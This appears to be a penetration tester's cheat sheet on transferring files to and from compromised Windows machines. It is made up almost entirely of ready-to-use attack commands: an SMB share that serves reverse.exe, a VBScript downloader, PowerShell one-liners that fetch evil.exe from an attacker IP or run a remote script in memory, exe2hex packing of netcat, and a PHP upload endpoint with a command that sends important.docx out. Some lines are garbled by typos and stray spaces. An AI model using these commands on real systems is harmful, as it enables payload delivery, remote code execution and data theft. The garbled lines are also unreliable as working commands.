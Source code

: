 # Windows File Transfers

* FTP on attacker machine
- Can also use tftp for file transfers  


### Easiest file transfer
**Attacker - Victim machine**
On attacking Machine: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
On Windows victim Machine: `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`


### Windows Simple HTTP downloader VBs
**Attacker - Victim machine**
```
cho	strUrl	=	WScript.Arguments.Item(0)	>	wget.vbs	
echo	StrFile	=	WScript.Arguments.Item(1)	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DEFAULT	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PRECONFIG	=	0	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_DIRECT	=	1	>>	wget.vbs
echo	Const	HTTPREQUEST_PROXYSETTING_PROXY	=	2	>>	wget.vbs
echo	Dim	http,	varByteArray,	strData,	strBuffer,	lngCounter,	fs,	ts	>>	wget.vbs
echo	Err.Clear	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	http	=	CreateObject("WinHttp.WinHttpRequest.5.1")	>>	wget.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("WinHttp.WinHttpRequest")	>>	wge	t.vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("MSXML2.ServerXMLHTTP")	>>	wget.	vbs
echo	If	http	Is	Nothing	Then	Set	http	=	CreateObject("Microsoft.XMLHTTP")	>>	wget.vbs	
echo	http.Open	"GET",	strURL,	False	>>	wget.vbs
echo	http.Send	>>	wget.vbs
echo	varByteArray	=	http.ResponseBody	>>	wget.vbs
echo	Set	http	=	Nothing	>>	wget.vbs
echo	Set	fs	=	CreateObject("Scripting.FileSystemObject")	>>	wget.vbs
echo	Set	ts	=	fs.CreateTextFile(StrFile,	True)	>>	wget.vbs
echo	strData	=	""	>>	wget.vbs
echo	strBuffer	=	""	>>	wget.vbs
echo	For	lngCounter	=	0	to	UBound(varByteArray)	>>	wget.vbs
echo	ts.Write	Chr(255	And	Ascb(Midb(varByteArray,lngCounter	+	1,	1)))	>>	wget.vbs	
echo	Next	>>	wget.vbs
echo	ts.Close	>>	wget.vbs	
```

To run the above:  `cscript wget.vbs http://10.11.0.4/evil.exe evil.exe`

### Using powershell
**Attacker - Victim machine**
Another way on newer machines is to use powershell:
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1 C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Run the above using `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`  
Powershell default exec policy is restriction, no logo to not seee logo and nopro for prevention of loading default profile

Can do the same in one line without creating a file:   
`c> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'newexploit.exe')`

Can also execute a file without saving it to disk:
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`


### Windows Downloads with exe2hex and PowerShell
**Attacker - Victim machine**
Compress a binary, then convert to a hex string, embed to a windows script
Can use UPX: PE compression tool

On attacker machine: `upx -9 nc.exe`
`exe2hex -x nc.exe -p nc.cmd`
Transfer the nc file and on the windows host, run `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`
command above can be found in the nc.cmd 


### Windows uploads using scripting languages
**Victim - Attacker machine**
On attacker kali machine, start an apache server and create an uploads directory. Change owner to www-data
```
<?php	
$uploaddir	=	'/var/www/uploads/';
$uploadfile	=	$uploaddir	.	$_FILES['file']['name'];	
move_uploaded_file($_FILES['file']['tmp_name'],	$uploadfile)	?>	
```

From windows machine: `powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

